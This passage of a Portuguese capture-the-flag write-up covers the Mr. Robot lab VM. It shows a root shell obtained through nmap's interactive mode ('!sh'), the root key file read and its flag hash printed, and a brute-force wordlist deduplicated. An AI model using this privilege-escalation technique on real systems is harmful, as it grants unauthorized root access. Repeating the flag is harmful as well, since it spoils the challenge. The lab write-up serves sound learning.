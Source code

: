 Tentei seguir essa instrução da print acima, mas não funcionou, então usei a básica do nmap

```shell
robot@linux:/tmp$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
# 
```
{: .nolineno }

### Key 3

```shell
# cd /root
cd /root
# ls
ls
firstboot_done	key-3-of-3.txt
# cat key	
cat key	
cat: key: No such file or directory
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
{: .nolineno }


Pesquisando sobre, a wordlist no final era pra se usar pra bruteforce, um método alternativo, la contem o usuário elliot e a senha, o arquivo tbm possui diversas entradas duplicadas,
que podem ser removidas com  
`└─$ sort fsocity.dic | uniq >fso.txt`  
![Alt text](/assets/img/mrrobot10.png)
